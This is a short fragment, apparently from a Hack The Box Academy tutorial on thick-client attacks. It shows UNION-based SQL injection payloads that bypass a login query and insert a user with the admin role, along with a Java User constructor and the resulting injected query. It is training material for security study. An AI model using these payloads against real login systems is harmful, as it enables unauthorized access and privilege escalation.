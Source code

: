 ``` sql
MariaDB [userdb]> select * from users where username='test' union select 'admin', 'welcome123';
+----------+-------------+
| username | password    |
+----------+-------------+
| admin    | welcome123  |
+----------+-------------+
```

``` java
test' UNION SELECT 1,'invaliduser','invalid@a.b','invalidpass','admin
```

``` java
public User(int uid, String username, String password, String email, Role role) {
    this.uid = uid;
    this.username = username;
    this.password = password;
    this.email = email;
    this.role = role;
}
public void setPassword(String password) {
    this.password = password;
  }
```

![https://academy.hackthebox.com/storage/modules/113/thick_clients_web/bypass.png](https://academy.hackthebox.com/storage/modules/113/thick_clients_web/bypass.png)

``` sql
select id,username,email,password,role from users where username='abc' UNION SELECT 1,'abc','a@b.com','abc','admin'
```

![https://academy.hackthebox.com/storage/modules/113/thick_clients_web/admin.png](https://academy.hackthebox.com/storage/modules/113/thick_clients_web/admin.png)

# 

# 

#### Questions

####